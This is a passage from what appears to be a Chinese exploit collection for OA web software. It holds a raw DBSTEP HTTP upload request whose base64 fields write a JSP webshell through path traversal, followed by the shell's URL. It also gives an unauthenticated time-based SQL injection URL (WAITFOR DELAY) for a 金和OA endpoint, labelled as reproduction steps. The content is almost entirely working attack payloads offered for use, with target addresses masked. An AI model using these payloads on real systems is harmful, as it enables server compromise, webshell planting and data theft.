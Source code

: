 ```
Accept-Encoding: gzip, deflate
Connection: close
Content-Length: 417

DBSTEP V3.0     351             0               666             DBSTEP=REJTVEVQ
OPTION=U0FWRUZJTEU=
currentUserId=zUCTwigsziCAPLesw4gsw4oEwV66
FILETYPE=Li5cMW5kZXguanNw
RECOR1DID=qLSGw4SXzLeGw4V3wUw3zUoXwid6
originalFileId=wV66
originalCreateDate=wUghPB3szB3Xwg66
FILENAME=qfTdqfTdqfTdVaxJeAJQBRl3dExQyYOdNAlfeaxsdGhiyYlTcATdN1liN4KXwiVGzfT2dEg6
needReadFile=yRWZdAS6
originalCreateDate=wLSGP4oEzLKAz4=iz=66

1

shell:http://xx.xx.xx.xx/1ndex.jsp
```
65、金和OA 未授权
```
1.漏洞链接
http://xx.xx.xx.xx/C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1
2.复现步骤
http://xx.xx.xx.xx/C6/Jhsoft.Web.users/GetTreeDate.aspx/?id=1%3bWAITFOR+DELAY+'0%3a0%3a5'+--%20and%201=1
```
